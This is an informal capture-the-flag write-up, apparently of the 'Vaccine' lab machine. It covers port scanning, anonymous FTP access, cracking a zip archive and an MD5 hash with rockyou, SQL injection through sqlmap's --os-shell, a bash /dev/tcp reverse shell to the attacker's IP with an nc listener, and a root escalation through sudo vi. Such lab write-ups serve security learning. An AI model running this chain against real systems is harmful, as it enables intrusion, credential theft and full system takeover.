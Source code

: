  Vaccine   

used nmap -p- -sV -sC to get all the services running in all the ports and found an http,ssh and ftp   accessed the ftp server using the anonymous username and found a “backup.zip” file in the ftp server   used get {filename} to download the file and when I tried to extract the file name it was password protected, now I am kinda stuck, lets see    had to resort to some wisdom from chatgpt - 
used “john2zip backup.zip > backup.hash” to convert to hash so we can crack using “john —wordlist = ‘path to rockyou’ backup.hash”   disclaimer : if the archive had different passwords for each file this wont work  

got the password : [REDACTED] 
 extracted the backup.zip, got the files - index.php and style.css    I open the index.php and the username  “admin” and password “[REDACTED]” is present which is a hash it seems   we can get what type of hash it uses using “hashid” and returns too many hash algos    we assume its md5 since its 32bit so we use hashcat ”hashcat -a 0 -m 0 password.hash /usr/share/wordlists/rockyou.txt.gz”  here “-a 0” to specify to run in straight mode like directly take password from wordlist hash it using md5 which we specified using “-m 0”   and the password is [REDACTED],   now will try this password for the http server that we found running , logged in and stuck again - there is a search functionality which we might be able to exploit    tried passing special characters to see if we can see any sql query errors - and we do - ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^  sql injection alert and this seems to be a postgresql server since its using “ilike”    we will use sqlmap for this : sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=[REDACTED]"  this confirms that search is vulnerable and we have dba rights so when we add additionally —os-shell it gives us shell access 

dont forget you will only get access to os shell if you have database admin rights    now since we have shell access we will run -  bash -c "bash -i >& /dev/tcp/{myip}/443 0>&1" bash -c to specify a bash command and bash -i to start a interactive session with our 443 port and >&1 to pass all input and output to the same connection   sudo nc -lvnp 443 - to open our 443 port 

we are gonna check var/www/html path for any hardcoded php files which might contain the db password 

found the password : [REDACTED],  the shell dies frequently so now using ssh we connect like ssh postgres@ipaddress and give the password we found  
in there when I cd I found the user flag - [redacted]

and run sudo -l to list our privileges and we find this : User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf    and vi is a text editor and if we open this file using vi the when we use esc and type :!bash - boom we got root shell access and we find the system flag   - [redacted]
  
   

